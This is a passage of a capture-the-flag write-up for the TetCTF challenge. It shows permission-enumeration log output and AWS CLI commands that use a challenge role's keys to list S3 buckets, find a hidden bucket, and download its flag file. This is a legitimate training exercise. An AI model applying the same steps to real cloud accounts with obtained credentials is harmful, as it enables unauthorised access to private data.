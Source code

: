 ```
2022-01-03 00:21:16,378 - 78019 - [INFO] -- s3.list_buckets() worked!
2022-01-03 00:21:16,388 - 78019 - [ERROR] Remove globalaccelerator.describe_accelerator_attributes action
2022-01-03 00:21:33,573 - 78019 - [INFO] -- sts.get_caller_identity() worked!
```

I found that we can list out the S3 bucket : 

```
aws --profile ctf_role s3 ls
2021-12-31 15:11:47 secret-tetctf
2021-12-29 22:48:31 tet-ctf-secret
```

`secret-tetctf` is the bucket that contains the python script and the image, and `tet-ctf-secret` is a newly discover bucket.

I tried to use this URL to access it, however access denied : 

https://tet-ctf-secret.s3.us-east-1.amazonaws.com/

![](https://i.imgur.com/bTXYs9b.png)


So I just access it using the AWS CLI with those keys for the CTF_ROLE : 
```
aws --profile ctf_role s3 ls s3://tet-ctf-secret
2021-12-29 23:18:42         29 flag
```

The flag is finally found, so I just copy it to my machine and read it : 

```
aws --profile ctf_role s3 cp s3://tet-ctf-secret/flag .
download: s3://tet-ctf-secret/flag to ./flag     

cat flag
TetCTF{AssumE_R0le-iS-A-MuSt}
```
